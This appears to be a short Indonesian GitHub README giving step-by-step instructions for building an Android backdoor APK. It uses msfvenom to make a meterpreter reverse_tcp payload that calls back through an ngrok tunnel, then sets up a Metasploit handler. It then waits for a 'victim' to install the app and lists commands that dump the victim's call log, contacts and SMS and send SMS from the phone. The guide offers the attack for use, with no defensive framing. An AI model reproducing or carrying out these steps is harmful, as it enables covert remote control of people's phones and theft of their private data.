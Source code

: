 # Backdoor-APK
Cara Membuat Backdoor Untuk Android Dengan Metaspolit Dan Ngrok
**1. Install Metasploit**

**2. Install Ngrok**

**3. Buat Akun Ngrok**

**4. Masukkan Token Ngrok**
<br> Masukkan Perintah :
<br> $./ngrok authtoken "Masukkan Token"

**5. Buat Port Ngrok**
<br> $./ngrok http 4455

**6. Melihat Status Ngrok**
<br> $ngrok tcp 4455 (port sesuai yang kita buat di awal)

**7. Jalankan Metasploit**
<br> $msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=11610 R > /home/x-ploit001/Backdoor.apk
<br> Ket. Untuk LHOST dan LPORT diambil dari forwarding status ngrok

**8. Menjalankan Msfconsole**
<br> $msfconsole

**9. EKSEKUSI**
<br> msf > use multi/handler
<br> msf exploit(muti/handler) > set payload android/meterpreter/reverse_tcp
<br> msf exploit(muti/handler) > set 1host 0.0.0.0
<br> msf exploit(muti/handler) > set 1port 4455
<br> msf exploit(muti/handler) > exploit

**10. Menunggu Korban Install APK**
**11. Perintah Remoting**
<br> dump_callog (Mendapatkan log panggilan di hp korban)
<br> dump_contacs (Mendapatkan kontak di hp korban)
<br> dump_sms (Mendapatkan sms masuk dan keluar di hp korban)
<br> send_sms (Mengirim sms menggunakan hp korban)
